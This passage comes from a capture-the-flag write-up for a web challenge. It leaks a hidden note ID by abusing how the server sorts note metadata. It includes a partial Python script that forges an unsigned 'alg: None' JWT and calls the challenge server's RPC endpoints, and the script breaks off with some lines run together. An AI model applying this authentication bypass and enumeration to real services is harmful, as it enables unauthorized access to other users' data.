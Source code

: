 ![](/home/user/work/shared/flags/HTS-702-2018-CTF/web-challenge/before.png) 

I now will input a letter that I consider to be high. Sorting like strings, generally lowercase `z` is the "higher" value. We can confirm this works:

![](/home/user/work/shared/flags/HTS-702-2018-CTF/web-challenge/Screenshot_2018-06-28_11-16-23.png) 

I've made mentions of "high" and "low" values. As I mentioned on the mobile writeups, all characters in the ascii space have a number, which can be looked up in an ascii table. Digits from 0 to 9 have a value that is lower than uppercase letters, and uppercase letters have a lower value than lowercase letters. 

![](/home/user/work/shared/flags/HTS-702-2018-CTF/web-challenge/imgs/20180628-121127.png) 

That being said, the this logic fails on the first character, I assume due to some crazy PHP type juggling issue, where PHP deems numbers to be always higher than strings, or something like that. With that in mind, the python code to solve the challenge looks as follows:

```
import requests                                                                                          
import sys                                                                                               
import string                                                                                            
                                                                                                         
TARGET_EPOCH = "1528911533"                                                                              
def create_note(id):                                                                                     
    id = str(id)                                                                                         
    burp0_url = "http://159.203.178.9:80/rpc.php?method=createNote&id=1528911533"                        
    burp0_headers = {"Authorization": "eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MX0.", "Accept": "application/notes.api.v2+json", "Connection": "close", "Content-type": "application/json"}                   
    burp0_json={"id": id, "note": "aa"}                                                                  
    requests.post(burp0_url, headers=burp0_headers, json=burp0_json)                                     
                                                                                                         
def reset():                                                                                             
    burp0_url = "http://159.203.178.9:80/rpc.php?method=resetNotes"                                      
    burp0_headers = {"Authorization": "eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MX0.", "Accept": "application/notes.api.v2+json", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}      requests.post(burp0_url, headers=burp0_headers)                                                      
                                                                                                         
def get_meta():                                                                                          
    burp0_url = "http://159.203.178.9:80/rpc.php?method=getNotesMetadata"                                
    burp0_headers = {"Authorization": "eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MX0.", "Accept": "application/notes.api.v2+json", "Connection": "close"}                                                           resp = requests.get(burp0_url, headers=burp0_headers)                                                
                                                                                                         
    return resp.content                                                                                  
                                                                                                         
# we need to split strings because JSON parsing may alter the ordering.                                  
```